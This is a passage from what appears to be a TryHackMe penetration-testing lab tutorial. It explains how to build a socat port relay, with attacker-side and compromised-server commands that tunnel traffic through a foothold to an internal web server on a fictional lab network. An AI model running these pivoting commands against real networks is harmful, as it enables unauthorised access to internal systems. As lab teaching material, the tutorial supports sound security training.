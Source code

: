 First of all, on our own attacking machine, we issue the following command:  
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:  
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &   `

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:  
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &   `

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

![](https://assets.tryhackme.com/additional/wreath-network/ZjA0YmEzMzVl.png)

- The request goes to `127.0.0.1:8000`
- Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
- Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

- The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
- Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

We have now achieved the same thing as previously, but without opening any ports on the server!  

---

Finally, we've learnt how to _create_ backgrounded socat port forwards and relays, but it's important to also know how to _close_ these. The solution is simple: run the `jobs` command in your terminal, then kill any socat processes using `kill %NUMBER`:

![Demonstration for how to kill background jobs](https://assets.tryhackme.com/additional/wreath-network/61ca87aa4350.png)  

---

**For the following questions, assume that we are working with a local copy of socat called `socat` in the current directory.**  

---

[[1] TryHackme: What The Shell?](https://tryhackme.com/room/introtoshells)  
